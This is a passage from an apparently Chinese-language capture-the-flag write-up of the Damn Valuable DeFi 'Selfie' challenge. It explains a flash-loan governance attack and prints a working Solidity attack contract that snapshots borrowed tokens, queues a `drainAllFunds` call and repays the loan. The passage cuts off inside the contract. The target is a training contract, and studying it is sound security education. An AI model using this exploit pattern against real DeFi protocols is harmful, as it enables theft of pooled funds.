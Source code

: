```
    actionCounter++;

    emit ActionQueued(actionId, msg.sender);
    return actionId;
`}`

function _hasEnoughVotes(address account) private view returns (bool) `{`
    uint256 balance = governanceToken.getBalanceAtLastSnapshot(account);
    uint256 halfTotalSupply = governanceToken.getTotalSupplyAtLastSnapshot() / 2;
    return balance &gt; halfTotalSupply;
`}`
```

很明显我们可以通过贷款池的贷款操作，满足 `_hasEnoughVotes()` 的条件，然后构造好特定 data 后传入 `queueAction()` 函数，然后归还贷款，最后执行 `executeAction()` 函数，触发我们的 payload，成功清空贷款池。根据思路编写并部署攻击合约，成功利用：

```
pragma solidity ^0.6.0;

import "../DamnValuableTokenSnapshot.sol";

interface ISelfiePool `{`
    function flashLoan(uint256 borrowAmount) external;
    function drainAllFunds(address receiver) external;
`}`

interface ISimpleGovernance `{`
    function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256);
    function executeAction(uint256 actionId) external payable;
`}`

contract AttackSelfie `{`
    address public owner;
    ISelfiePool public pool;
    ISimpleGovernance public governance;
    uint256 public actionId;

    constructor(ISelfiePool _pool, ISimpleGovernance _governance) public `{`
        owner = msg.sender;
        pool = _pool;
        governance = _governance;
    `}`

    function attack0(uint256 amount) public `{`
        pool.flashLoan(amount);
    `}`

    function receiveTokens(address _token, uint256 _amount) public `{`
        DamnValuableTokenSnapshot token = DamnValuableTokenSnapshot(_token);

        token.snapshot();

        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            owner
        );

        actionId = governance.queueAction(address(pool), data, 0);

        token.transfer(address(pool), _amount);
    `}`

    function attack1() public `{`
```